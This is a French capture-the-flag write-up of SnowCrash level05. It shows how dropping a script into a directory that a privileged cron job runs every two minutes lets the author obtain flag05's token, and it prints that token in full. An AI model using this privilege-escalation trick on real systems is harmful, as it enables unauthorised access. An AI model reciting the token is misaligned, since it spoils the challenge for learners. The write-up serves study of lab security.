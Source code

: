 rien dans le home on cherche des trucs sur -user flag05 : 
```shell
find / -user flag05 2> /dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```shell
cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
Ca ressemble a un programe lancer par CRON.

on peut faire l'essais suivant:
```shell
touch /opt/openarenaserver/essais
chmod 755 /opt/openarenaserver/essais
```
au bout de 2 mn le fichier a disparu...

On va creer un fichier run qui execute getflag et renvoi le token dans un repertoire. le seul ou l'on peut écrire est /tmp

```shell
echo 'getflag > /tmp/token' > /opt/openarenaserver/run
chmod 755 /opt/openarenaserver/run
```
apres 2 minutes notre run a ecrit dans /tmp: 
```shell
cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
Check flag.Here is your token : viuaaale9huek52boumoomioc

note1:

On peut aussi envoyer le message a level05 par:
```shell
echo 'getflag | write level05' > /opt/openarenaserver/run
```
et attendre de recevoir le message 1

note2:

A la connexion on a un mouveau mail. En allant dans /var/mail on peut regarde dans le fichier level05:
```shell
level05@SnowCrash:~$ ls -l /var/mail
total 4
-rw-r--r--+ 1 root mail 58 May  2 13:51 level05
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
e fichier "level05" dans votre boîte aux lettres contient une entrée de la crontab (table de planification des tâches) pour l'utilisateur "flag05". Cette entrée de crontab indique que toutes les deux minutes (toutes les 2 minutes), le script "/usr/sbin/openarenaserver" doit être exécuté avec les privilèges de l'utilisateur "flag05".